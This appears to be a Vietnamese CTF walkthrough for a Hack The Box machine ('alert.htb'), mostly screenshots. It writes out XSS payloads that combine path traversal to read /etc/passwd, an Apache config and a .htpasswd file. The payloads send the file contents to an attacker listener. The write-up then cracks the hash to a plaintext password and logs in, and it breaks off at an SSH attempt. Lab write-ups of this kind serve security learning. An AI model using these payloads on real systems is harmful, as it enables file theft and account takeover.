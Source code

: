 <img width="1748" height="960" alt="image" src="https://github.com/user-attachments/assets/7e84a040-7533-4ed2-8bff-4e9728346dd4" />

<img width="1539" height="639" alt="image" src="https://github.com/user-attachments/assets/a44f82d0-d050-44e8-a71c-a541d1f8a75b" />

Ở đây thì nội dung của nó là cách sử dụng cái `messages.php` là thêm tham số `file` vào, tôi thêm thử thì được, tôi thử xem nội dung của file txt đó thông qua contact mà chả có gì, dù tôi có thêm param thì cũng không 
trả lại nội dung gì cả:

<img width="828" height="237" alt="image" src="https://github.com/user-attachments/assets/de576cea-c955-48dc-aa14-00a5a4007e33" />

Tôi thử đi kèm với payload thì xuất hiện path traversal:
```
<script>fetch('/messages.php?file=../../../../../../../../../etc/passwd').then(r => r.text()).then(d => { let b64 = btoa(d); new Image().src='http://10.10.14.5:1234/?data=' + b64; })</script>
```

<img width="1739" height="947" alt="image" src="https://github.com/user-attachments/assets/d339153f-f9ef-47fe-a016-5c422fee35d2" />

<img width="964" height="881" alt="image" src="https://github.com/user-attachments/assets/7cca5f8f-8c44-4a58-b5e9-2fcb6bce3317" />

Thông qua search google và chatgpt thì tôi tìm được vị trí file config nên đọc là `/etc/apache2/sites-available/000-default.conf`:
```
<script>fetch('/messages.php?file=../../../../../../../../../etc/apache2/sites-available/000-default.conf').then(r => r.text()).then(d => { let b64 = btoa(d); new Image().src='http://10.10.14.5:1234/?data=' + b64; })</script>
```

<img width="1753" height="965" alt="image" src="https://github.com/user-attachments/assets/3bc16127-64cf-451b-9d74-e1b61d5cf489" />

<img width="1450" height="875" alt="image" src="https://github.com/user-attachments/assets/c3bbfb46-fecf-4973-92dc-1eea8f475539" />

Tôi thấy có 1 đường dẫn nhìn khá là có giá trị `/var/www/statistics.alert.htb/.htpasswd`:
```
<script>fetch('/messages.php?file=../../../../../../../../../var/www/statistics.alert.htb/.htpasswd').then(r => r.text()).then(d => { let b64 = btoa(d); new Image().src='http://10.10.14.5:1234/?data=' + b64; })</script>
```

<img width="1436" height="658" alt="image" src="https://github.com/user-attachments/assets/4b23029d-434e-41dd-8447-4921a9defff5" />

Ra được mật khẩu của user `albert`, tra trong hashcat thì là mode 1600:

<img width="1009" height="116" alt="image" src="https://github.com/user-attachments/assets/67ff0461-267c-4579-a9ff-024230efab5f" />

Chạy hashcat thì crack ra được `manchesterunited` là dạng plaintext, thử đăng nhập vào `statistics.alert.htb` thì được:

<img width="1804" height="1014" alt="image" src="https://github.com/user-attachments/assets/7b4b6232-ffc9-4074-88b7-94eae35f0830" />

Đây là cái dashboard thôi và không có gì hữu ích lắm, tôi tiếp tục thử ssh vào server:

<img width="1341" height="928" alt="image" src="https://github.com/user-attachments/assets/1da512aa-38ae-4ba5-be2f-733cd7c246ce" />
